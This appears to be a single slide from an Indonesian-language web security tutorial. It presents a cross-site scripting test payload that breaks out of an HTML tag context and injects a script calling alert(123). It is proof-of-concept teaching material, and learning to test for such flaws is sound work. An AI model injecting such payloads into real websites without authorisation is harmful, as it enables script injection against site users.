

# XSS Payload #2
Digunakan jika input muncul di antara tag html.
"></tag><script>alert(123)</script>